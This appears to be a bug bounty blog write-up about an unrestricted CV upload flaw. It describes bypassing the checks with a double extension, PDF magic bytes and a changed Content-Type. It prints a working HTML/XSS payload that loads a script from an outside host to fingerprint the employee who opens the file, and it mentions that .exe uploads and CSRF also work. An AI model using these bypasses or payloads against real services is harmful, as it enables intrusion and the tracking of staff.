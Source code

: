 ```yaml
---
layout: post
title: Unrestricted CV File Upload
categories: bug hunting 
---
```


While I'm stuck at quarantine like the rest of the world, I have more time to work on my web app hacking skills by doing some bug bounties. From those bugs that I found in this long BB session of mine, I got to report my first Unrestricted File Upload.
OWASP explains the vulnerability in great detail [here](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload).

So the functionality of the service goes like that: a user can upload their CV on the website. The web app renames and saves the file, which is going to be examined later by an employee of the company on their computer locally. After examining the file, the employee will update the user's profile based on the info of the CV.

###### Source: OWASP
![screenshot](../images/screenshot.png)

While examining the service I tried to upload a basic "hello world" HTML file. But it was immediately rejected. The file wasn't even probed to be uploaded so I guessed a content inspection didn't even take place. So maybe the first obstacle was the filename itself. Changing the filename from ``file.html`` to ``file.html.pdf`` got the file to be accepted.

After that, I hit "Upload" but the file got rejected again. This is where the content inspection (if that's the correct way to say it) took place. 

At this point I had to trick the system and make it believe that this was indeed a pdf file. Here I have to thank [HTB](https://www.hackthebox.eu/), as this is where I first learned about bypassing protection with File Signatures or also known as [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures). Adding the signature ``%PDF-1.`` at the top of the HTML file, I could bypass the protection. Also, by changing the Content-Type of the file from ``application/pdf`` to ``text/html`` the file was getting downloaded and opened as a HTML file. I added the a basic XSS payload in orded to get notified if the employee opened the file (because I thought that if they saw a HTML file they would automatically delete/dismiss it. So the file at the end looked like this:
```
$ cat fileupload.html.pdf 
%PDF-1.
<html>
<script src=https://vict0ni.xss.ht></script>
</html>
```
Even though there wasn't any cookies to steal, because the file was not rendered inside the company's system (sadly, for me, as this would have opened ways for possible RCE), it served the purpose of notifying me in case the file was opened and getting some information, like the employee's IP and geolocation, their web browser, OS and path ``file:///C:/Users/[employee's name]/Downloads/``. While this info is not useful for me as a bug hunter, they can be useful for adversaries. I also tested the vulnerability for .exe files and I was successful again.

###### Source: OWASP
![screenshot_1](../images/screenshot_1.png)

I hope you gained something from my experience.

Bonus: The file upload service was also vulnerable to CSRF, which means that I could also upload a malicious file via another user and also possibly infect them, as the uploaded CV can also be downloaded by the users themselves.

